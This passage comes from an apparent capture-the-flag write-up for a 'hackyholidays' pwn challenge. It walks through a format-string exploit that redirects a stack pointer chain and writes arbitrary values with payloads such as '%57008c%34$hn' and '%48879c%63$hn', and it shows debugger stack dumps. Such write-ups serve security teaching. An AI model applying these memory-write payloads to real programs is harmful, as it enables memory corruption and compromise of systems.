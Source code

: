 ```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— 0x786c24333325 /* '%33$lx' */
01:0008│         0x7fffffffddf8 ◂— 0x0
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0x0
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffe2e5 ◂— '/home/p00dl3/Documents/CTFS/CTF/hackyholidays/pwn/engine-control/engine'
```

So we can see here that at indexes `00-18` is our input buffer, `1c` contains the pointer pointing to index `39` and at `39` the pointer pointing to a string further on in the stack.

Since the pointer in index `39` is already a stack pointer, all we need to do is change the lower 2 bytes since the upper 4 are already set for us.

First, let's change the pointer in `39` to point to the last 8 bytes of our input buffer with the following format string: `%57008c%34$hn`. Here is how the following string is made:  
The last 2 bytes of the address of the end of our input buffer is `deb0` which in decimal is `57008`.  
We want to change the last 2 bytes of the pointer in `39`, so we will use the 1st pointer in `1c` to change it. We will need to reference the pointer in `1c` with our `%hn`, so that would be`1c + 6 = 22 (34 in decimal)`.

After sending the format string, and checking the contents of the stack again we see how the pointer in `39` is now pointing to index `18` of the last 8 bytes of our input buffer:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%57008c%34%hn'
01:0008│         0x7fffffffddf8 ◂— '34$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0x0
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0x0
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0x0
```

Now to start writing our arbitrary value, we just reference `39` with our `%hn`: `%48879c%63$hn`\(48879 = 0xbeef, 0x39 + 6 = 63\).  
  
Checking the stack again:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%48879c%63$hn'
01:0008│         0x7fffffffddf8 ◂— '63$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xbeef
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xbeef
```
